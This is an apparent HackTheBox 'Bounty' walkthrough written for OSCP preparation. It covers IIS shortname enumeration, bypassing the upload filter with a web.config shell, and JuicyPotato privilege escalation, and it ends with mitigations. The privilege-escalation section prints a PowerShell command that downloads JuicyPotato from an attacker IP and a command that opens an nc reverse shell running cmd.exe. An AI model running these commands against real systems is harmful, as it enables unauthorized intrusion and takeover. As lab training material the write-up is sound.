```yaml
---
title: Bounty
date: 2025-06-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, IIS-Shortname-Enumeration, web.config-reverse-shell, htshells, SeImpersonatePrivilege-JuicyPotato-privesc] 
image: bont.png
media_subpath: /assets/img/posts/2025-06-23-bountyHTB/
---
```

## Introduction

In this walkthrough, I discovered a web application hosted on an IIS 7.5 server. I performed IIS shortname enumeration and server was actually vulnerable to it, `feroxbuster` revealed an `.aspx` endpoint used for file uploads. Although direct uploads of command-executing `.NET` extensions were blocked, the server's vulnerability to shortname enumeration and its outdated version allowed me to bypass restrictions by uploading a crafted `web.config` file. This gave me a shell on the system. From there, I exploited the `SeImpersonatePrivilege` using JuicyPotato to escalate privileges and gained a `NT AUTHORITY\SYSTEM` shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Web

### Port 80

![image.png](image%202.png)

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400 -x .aspx,asp**
```

![image.png](image%203.png)

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

**IIS Shortname Enumeration**

```bash
java -jar /opt/IIS-Shortname-Scanner/iis_shortname_scanner.jar 2 20 http://$IP /opt/IIS-Shortname-Scanner/config.xml
```

![image.png](image%204.png)

## Exploitation

Navigating to `transfer.aspx` I see upload page we can upload `.aspx` files and execute them accessing from `uploadedfiles directory.`

![image.png](image%205.png)

But we cannot upload `.aspx` files, let’s see by brute-forcing which extension are we allowed to upload.

![image.png](image%206.png)

![image.png](image%207.png)

It didn’t allow to upload neither one.

![image.png](image%208.png)

I tried changing Magic Bytes:

```bash
echo 'FF D8 FF E0' | xxd -p -r > mime_shell.aspx
cat shell.aspx >> mime_shell.aspx
```

Then intercepted the request and changed the Content-Type to `image/jpeg`.

![image.png](image%209.png)

Still no success, let’s change the extension too.

![image.png](image%2010.png)

It didn’t work:

![image.png](image%2011.png)

As IIS server is comparatively old and it has even Shortname Extension vulnerability high change that it would execute commands written `.config` files. We can try to upload `HTSHELLS`. In case of IIS servers we can try to upload `web.config` file containing web shell.

Here is the [post](https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/) about it.

I am gonna use this [script](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config).

![image.png](image%2012.png)

## Privilege Escalation

I see `merlin` has powerful privileges, I am gonna try to exploit `SeImpersonatePrivilege`:

![image.png](image%2013.png)

Let’s use [`JuicyPotato`](https://github.com/ohpe/juicy-potato/tree/master):

```bash
(New-Object Net.WebClient).DownloadFile('http://10.10.14.23/JuicyPotato.exe','c:\\tools\\JuicyPotato.exe')
```

```bash
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc64.exe 10.10.14.23 8443 -e cmd.exe" -t *

```

We didn’t even need to provide `CLSID` and it worked:

![image.png](image%2014.png)

![image.png](image%2015.png)

## Mitigation

- Upgrade IIS to a version not affected by shortname enumeration vulnerabilities.
- Disable or strictly validate file uploads, especially `web.config` and executable file types.
- Restrict upload directories from executing any scripts or config files.
- Remove unnecessary privileges like `SeImpersonatePrivilege` from untrusted users.
- Monitor and alert on suspicious privilege escalation attempts and config file changes.
